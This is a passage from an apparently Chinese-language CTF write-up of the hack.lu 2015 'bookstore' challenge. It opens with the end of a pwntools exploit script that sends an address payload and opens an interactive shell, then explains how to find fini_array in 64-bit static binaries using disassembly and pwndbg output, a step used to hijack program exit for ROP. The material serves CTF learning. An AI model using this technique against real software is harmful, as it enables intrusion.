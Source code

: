 ```python
#gdb.attach(p)
payload3 = '5'*8 + p64(attack_addr) + p64(attack_addr+2)
p.recvuntil("5: Submit\n")

p.sendline(payload3)

p.interactive()
```

### 参考文章

* [hack.lu 2015 bookstore writeup](https://bbs.pediy.com/thread-246783.htm)
* [2015-hacklu-bookstore](https://blog.csdn.net/qq_43449190/article/details/89077783)

### 补充总结

##### 怎么找 fini_array ？

首先 fini_array 是 \_\_libc_csu_fini 函数里面会用的一个列表，当程序退出时会调用这个数组存放的一个或两个函数，调用完成后才继续完成退出函数，这时才是真正退出程序。

###### 64 位静态链接程序

fini_array 数组长度为 0x10 字节，里面放了两个函数地址，退出 main 函数会先执行 fini_array[1] ，然后执行 fini_array[0] 。

在[劫持 64 位静态程序 fini_array 进行 ROP 攻击](https://www.mrskye.cn/archives/173)里面接触的是 64 位静态编译的程序，程序是没有符号表的，寻找 fini_array 方法是：

首先 ``readelf -h 程序名`` 查看程序加载入口地址。

gdb 调试将断点打在入口地址 ，然后找到有三个传参的 mov 指令，mov r8 就是 \_\_libc_csu_fini 的地址：

```shell
.text:0000000000401A60                 public start
.text:0000000000401A60 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:0000000000401A60 ; __unwind {
.text:0000000000401A60                 xor     ebp, ebp
.text:0000000000401A62                 mov     r9, rdx
.text:0000000000401A65                 pop     rsi
.text:0000000000401A66                 mov     rdx, rsp
.text:0000000000401A69                 and     rsp, 0FFFFFFFFFFFFFFF0h
.text:0000000000401A6D                 push    rax
.text:0000000000401A6E                 push    rsp
.text:0000000000401A6F                 mov     r8, offset sub_402BD0 ; fini
.text:0000000000401A76                 mov     rcx, offset loc_402B40 ; init
.text:0000000000401A7D                 mov     rdi, offset main
.text:0000000000401A84                 db      67h
.text:0000000000401A84                 call    __libc_start_main
.text:0000000000401A8A                 hlt
.text:0000000000401A8A ; } // starts at 401A60
.text:0000000000401A8A start           endp
```

然后 ``x /20i addr`` 查看该地址开始的汇编，找到 ``lea    rbp,[rip+0xb***1] # 0x4***f0`` ，这个地址就是 fini_array[1] 的地址：

```shell
pwndbg> x/20i 0x402bd0
  0x402bd0 <__libc_csu_fini>:    push   rbp
  0x402bd1 <__libc_csu_fini+1>:    lea    rax,[rip+0xb24e8]        # 0x4***c0 
  0x402bd8 <__libc_csu_fini+8>:    lea    rbp,[rip+0xb24d1]        # 0x4***b0 
  0x402bdf <__libc_csu_fini+15>:    push   rbx
  0x402be0 <__libc_csu_fini+16>:    sub    rax,rbp
  0x402be3 <__libc_csu_fini+19>:    sub    rsp,0x8
  0x402be7 <__libc_csu_fini+23>:    sar    rax,0x3
  0x402beb <__libc_csu_fini+27>:    je     0x402c06 <__libc_csu_fini+54>
  0x402bed <__libc_csu_fini+29>:    lea    rbx,[rax-0x1]
  0x402bf1 <__libc_csu_fini+33>:    nop    DWORD PTR [rax+0x0]
  0x402bf8 <__libc_csu_fini+40>:    call   QWORD PTR [rbp+rbx*8+0x0]
```

[^1]: fastbin 不与物理地址相邻 fastbin 合并，不与 top chunk 合并
[^2]: 分配的安全检查机制，请看 malloc 函数介绍